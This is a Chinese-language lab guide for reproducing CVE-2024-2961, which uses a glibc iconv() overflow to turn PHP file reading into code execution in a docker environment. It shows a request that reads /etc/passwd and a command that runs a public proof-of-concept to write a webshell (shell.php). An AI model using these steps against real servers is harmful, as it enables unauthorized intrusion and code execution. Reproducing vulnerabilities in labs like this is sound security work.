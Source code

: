 # PHP利用GNU C Iconv将文件读取变成RCE（CVE-2024-2961）

GNU C 是一个标准的ISO C依赖库。在GNU C中，`iconv()`函数2.39及以前存在一处缓冲区溢出漏洞，这可能会导致应用程序崩溃或覆盖相邻变量。

如果一个PHP应用中存在任意文件读取漏洞，攻击者可以利用`iconv()`的这个CVE-2024-2961漏洞，将其提升为代码执行漏洞。

参考链接：

- <https://www.ambionics.io/blog/iconv-cve-2024-2961-p1>

## 漏洞环境

执行如下命令启动一个PHP 8.3.4服务器，其使用iconv 2.36作为依赖：

```
docker compose up -d
```

服务启动后，你可以通过`http://your-ip:8080/index.php?file=/etc/passwd`这个链接读取`/etc/passwd`文件。

## 漏洞复现

在使用原作者给出的[exploit](https://github.com/ambionics/cnext-exploits)前，你需要准备一个Linux环境和Python 3.10解释器。

安装依赖：

```
pip install pwntools
pip install https://github.com/cfreal/ten/archive/refs/heads/main.zip
```

然后从<https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py>下载POC并执行：

```
wget https://raw.githubusercontent.com/ambionics/cnext-exploits/main/cnext-exploit.py
python cnext-exploit.py http://your-ip:8080/index.php "echo '<?=phpinfo();?>' > shell.php"
```

![](1.png)

可见，我们已经成功写入`shell.php`：

![](2.png)
